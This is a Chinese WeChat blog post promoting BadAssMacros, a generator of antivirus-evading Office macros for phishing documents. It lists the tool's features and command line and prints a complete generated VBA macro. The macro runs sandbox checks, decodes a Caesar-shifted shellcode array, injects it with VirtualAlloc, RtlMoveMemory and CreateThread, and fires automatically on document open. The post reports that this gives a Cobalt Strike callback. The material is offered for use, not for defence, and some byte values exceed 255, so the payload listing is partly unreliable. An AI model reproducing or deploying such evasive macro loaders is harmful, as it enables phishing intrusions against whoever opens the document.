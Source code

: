 ##  工具推荐：BadAssMacros免杀宏生成器

鸿鹄实验室a  [ 鸿鹄实验室 ](javascript:void\(0\);)

**鸿鹄实验室** ![]()

微信号 gh_a2210090ba3f

功能介绍 鸿鹄实验室，欢迎关注

____

__

收录于话题

    在众多的攻击方式中，钓鱼文档攻击仍然扮演者重要的地位，而随着各类安全防护设备的成熟，宏免杀一直是我们所讨论的问题，之前有MacroPack(收费版仍然好用)可以生成免杀宏文档，但特征已被标记，今天介绍的这款工具则仍然效果很好。  

    

地址如下：https://github.com/Inf0secRabbit/BadAssMacros

  

     先来看一下免杀效果：

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110832.png)

  

目前具有的功能如下：

  

  * Classic VBA shellcode injection.

  * Indirect VBA shellcode injection (using LoadLibrary).

  * Sandbox Detection.

  * VBA Purging.

  * Shellcode obfuscation.

  * Variable name Randomization.

  

这里我使用第一种方式进行注入  

  

  * 

    
    
    BadAssMacros.exe -i <path_to_raw_shellcode_file> -w <doc/excel> -p no -s classic -c <caesar_shift_value> -o <path_to_output_file>

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110833.png)

  

生成的宏代码如下：

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtrPrivate Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtrPrivate Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtrFunction stb() Dim qAW As Variant Dim GvH As LongPtr Dim DTc As Long Dim xiB As Long Dim fWB As LongPtr If Application.RecentFiles.Count < 3 ThenExit FunctionEnd IfSet objWMIService = GetObject("winmgmts:\\.\root\cimv2")Set colItems = objWMIService.ExecQuery("Select * from Win32_Processor", , 48)For Each objItem In colItemsIf objItem.NumberOfCores < 3 ThenExit FunctionEnd IfNext qAW = Array(255, 75, 134, 231, 243, 235, 203, 3, 3, 3, 68, 84, 68, 83, 85, 84, 89, 75, 52, 213, 104, 75, 142, 85, 99, 75, 142, 85, 27, 75, 142, 85, 35, 75, 142, 117, 83, 75, 18, 186, 77, 77, 80, 52, 204, 75, 52, 195, 175, 63, _100, 127, 5, 47, 35, 68, 196, 204, 16, 68, 4, 196, 229, 240, 85, 68, 84, 75, 142, 85, 35, 142, 69, 63, 75, 4, 211, 105, 132, 123, 27, 14, 5, 120, 117, 142, 131, 139, 3, 3, 3, 75, 136, 195, 119, 106, 75, 4, 211, 83, _142, 75, 27, 71, 142, 67, 35, 76, 4, 211, 230, 89, 75, 258, 204, 68, 142, 55, 139, 75, 4, 217, 80, 52, 204, 75, 52, 195, 175, 68, 196, 204, 16, 68, 4, 196, 59, 227, 120, 244, 79, 6, 79, 39, 11, 72, 60, 212, 120, 219, _91, 71, 142, 67, 39, 76, 4, 211, 105, 68, 142, 15, 75, 71, 142, 67, 31, 76, 4, 211, 68, 142, 7, 139, 75, 4, 211, 68, 91, 68, 91, 97, 92, 93, 68, 91, 68, 92, 68, 93, 75, 134, 239, 35, 68, 85, 258, 227, 91, 68, _92, 93, 75, 142, 21, 236, 82, 258, 258, 258, 96, 109, 3, 76, 193, 122, 108, 113, 108, 113, 104, 119, 3, 68, 89, 76, 140, 233, 79, 140, 244, 68, 189, 79, 122, 41, 10, 258, 216, 75, 52, 204, 75, 52, 213, 80, 52, 195, 80, 52, _204, 68, 83, 68, 83, 68, 189, 61, 89, 124, 170, 258, 216, 238, 118, 93, 75, 140, 196, 68, 187, 100, 33, 3, 3, 80, 52, 204, 68, 84, 68, 84, 109, 6, 68, 84, 68, 189, 90, 140, 162, 201, 258, 216, 238, 92, 94, 75, 140, 196, _75, 52, 213, 76, 140, 219, 80, 52, 204, 85, 107, 3, 5, 67, 135, 85, 85, 68, 189, 238, 88, 49, 62, 258, 216, 75, 140, 201, 75, 134, 198, 83, 109, 13, 98, 75, 140, 244, 75, 140, 221, 76, 202, 195, 258, 258, 258, 258, 80, 52, _204, 85, 85, 68, 189, 48, 9, 27, 126, 258, 216, 136, 195, 18, 136, 160, 4, 3, 3, 75, 258, 210, 18, 135, 143, 4, 3, 3, 238, 214, 236, 231, 4, 3, 3, 235, 165, 258, 258, 258, 50, 68, 107, 105, 81, 3, 157, 152, 102, 60, _179, 136, 116, 184, 55, 38, 239, 250, 111, 149, 90, 39, 166, 220, 17, 236, 156, 173, 190, 208, 118, 42, 257, 206, 123, 209, 43, 169, 53, 205, 216, 128, 12, 197, 242, 182, 95, 141, 121, 124, 19, 107, 29, 95, 202, 59, 153, 178, 48, 5, _145, 187, 177, 77, 21, 147, 43, 170, 168, 82, 205, 158, 16, 63, 236, 93, 13, 138, 84, 3, 88, 118, 104, 117, 48, 68, 106, 104, 113, 119, 61, 35, 80, 114, 125, 108, 111, 111, 100, 50, 55, 49, 51, 35, 43, 102, 114, 112, 115, 100, _119, 108, 101, 111, 104, 62, 35, 80, 86, 76, 72, 35, 59, 49, 51, 62, 35, 90, 108, 113, 103, 114, 122, 118, 35, 81, 87, 35, 56, 49, 52, 62, 35, 87, 117, 108, 103, 104, 113, 119, 50, 55, 49, 51, 44, 16, 13, 3, 214, 193, _208, 55, 4, 11, 192, 107, 203, 115, 147, 235, 180, 13, 143, 54, 239, 195, 106, 45, 70, 111, 186, 9, 50, 123, 33, 127, 155, 240, 94, 109, 44, 74, 215, 28, 87, 65, 234, 248, 256, 243, 98, 44, 211, 214, 183, 133, 125, 236, 179, 173, _42, 79, 178, 37, 192, 157, 121, 113, 171, 34, 186, 133, 255, 128, 215, 171, 210, 205, 146, 240, 29, 36, 48, 127, 76, 230, 26, 217, 115, 92, 25, 236, 197, 231, 257, 122, 62, 143, 244, 121, 27, 239, 38, 94, 56, 147, 243, 126, 156, 179, _56, 182, 70, 237, 65, 27, 97, 239, 200, 197, 202, 174, 144, 34, 151, 62, 49, 60, 202, 52, 98, 40, 250, 185, 239, 199, 73, 221, 9, 190, 126, 256, 79, 55, 29, 250, 163, 143, 71, 209, 165, 146, 197, 110, 170, 166, 230, 200, 159, 3, _116, 93, 9, 95, 83, 16, 158, 164, 178, 82, 59, 108, 40, 34, 85, 47, 32, 224, 108, 77, 211, 83, 65, 201, 229, 35, 220, 3, 214, 148, 211, 48, 250, 225, 80, 148, 6, 168, 36, 35, 66, 197, 200, 170, 212, 245, 149, 56, 30, 181, _21, 188, 102, 214, 68, 45, 199, 87, 53, 11, 121, 103, 133, 62, 193, 58, 25, 75, 138, 207, 190, 118, 212, 3, 68, 193, 243, 184, 165, 89, 258, 216, 75, 52, 204, 189, 3, 3, 67, 3, 68, 187, 3, 19, 3, 3, 68, 188, 67, 3, _3, 3, 68, 189, 91, 167, 86, 232, 258, 216, 75, 150, 86, 86, 75, 140, 234, 75, 140, 244, 75, 140, 221, 68, 187, 3, 35, 3, 3, 76, 140, 252, 68, 189, 21, 153, 140, 229, 258, 216, 75, 134, 199, 35, 136, 195, 119, 185, 105, 142, _10, 75, 4, 198, 136, 195, 120, 218, 91, 91, 91, 75, 8, 3, 3, 3, 3, 83, 198, 235, 162, 256, 258, 258, 52, 60, 53, 49, 52, 57, 59, 49, 52, 53, 54, 49, 52, 54, 52, 3, 84, 12, 194, 112)For i = 0 To UBound(qAW)qAW(i) = qAW(i) - 3Next iGvH = VirtualAlloc(0, UBound(qAW), &H3000, &H40)For DTc = LBound(qAW) To UBound(qAW)xiB = qAW(DTc)fWB = RtlMoveMemory(GvH + DTc, xiB, 1)Next DTcres = CreateThread(0, 0, GvH, 0, 0, 0)End FunctionSub Document_Open()stbEnd SubSub AutoOpen()stbEnd Sub

  

运行后，CS上线，有兴趣的可以自己去翻一翻源码。

  

     ▼更多精彩推荐，请关注我们▼

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805110836.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

工具推荐：BadAssMacros免杀宏生成器

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

